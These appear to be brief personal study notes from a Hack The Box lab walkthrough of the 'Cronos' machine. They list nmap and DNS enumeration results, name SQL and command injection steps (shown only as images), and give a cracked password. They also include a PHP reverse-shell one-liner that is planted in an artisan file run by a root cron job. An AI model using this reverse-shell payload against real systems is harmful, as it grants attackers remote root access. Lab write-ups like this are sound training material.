 # Information gathering

## system network

10.10.10.13

## Nmap Scan Result

``` bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

DNS Enum

```bash
Brute forcing with /usr/share/dnsenum/dns.txt:                                                                                                                                 
_______________________________________________                                        
                                                                                                                                                                               
admin.cronos.htb.                        604800   IN    A        10.10.10.13                                                                                                   
ns1.cronos.htb.                          604800   IN    A        10.10.10.13                                                                                                   
www.cronos.htb.                          604800   IN    A        10.10.10.13
```



Exploit

*Sql Injection*

![image-20221223141205793](D:\OSCP\hackthebox\attachments\image-20221223141205793.png)

Command Injection

![image-20221223141229294](D:\OSCP\hackthebox\attachments\image-20221223141229294.png)

#### Proof

![image-20221223142427395](D:\OSCP\hackthebox\attachments\image-20221223142427395.png)

### Lateral Movement

password decode from md5 **1327663704**



### Privilege Escalation

find an cron job which run php file as root.

![image-20221223145328710](D:\OSCP\hackthebox\attachments\image-20221223145328710.png)



Insert the payload into artisan file.

```php
$sock=fsockopen("10.10.14.8",6002);exec("/bin/sh -i <&3 >&3 2>&3");
```

get shell

![image-20221223145241451](D:\OSCP\hackthebox\attachments\image-20221223145241451.png)

#### proof

